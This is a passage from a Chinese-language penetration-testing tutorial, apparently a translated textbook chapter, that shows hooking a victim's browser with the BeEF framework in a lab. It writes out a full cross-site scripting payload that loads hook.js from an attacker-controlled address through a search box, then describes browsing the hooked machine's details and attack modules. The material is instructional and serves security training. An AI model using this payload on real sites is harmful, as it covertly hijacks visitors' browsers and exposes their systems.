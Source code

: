 ![BeEF 网页界面](img/httpatomoreillycomsourcenostarchimages2030472.png.jpg)图 14-24. BeEF 网页界面

目前没有浏览器被 BeEF 钩住，因此我们需要欺骗某人加载并运行 BeEF 的恶意*hook.js*脚本。让我们回到图书搜索框中的 XSS 漏洞。这次，我们不使用警告对话框，而是利用这个问题在目标浏览器中加载 BeEF 的*hook.js*。在 Windows 7 的 Internet Explorer 浏览器中，输入**`"<script src=http://192.168.20.9:3000/hook.js></script>"`**到图书搜索框，并点击**Go**。这次，用户不会看到任何警告框或其他提示，也没有任何迹象表明有什么问题，但如果你返回到 BeEF，你应该会在屏幕左侧的在线浏览器列表中看到 Windows 7 主机的 IP 地址，如图 14-25 所示。

在详细信息窗格中，选择 Windows 7 的 IP 地址后，你可以看到关于已钩住浏览器以及底层系统的详细信息，如版本和已安装的软件。在窗格顶部有额外的标签，如日志和命令。点击**命令**查看你可以在已钩住浏览器上运行的其他 BeEF 模块。

![已钩住的浏览器](img/httpatomoreillycomsourcenostarchimages2030474.png.jpg)图 14-25. 已钩住的浏览器
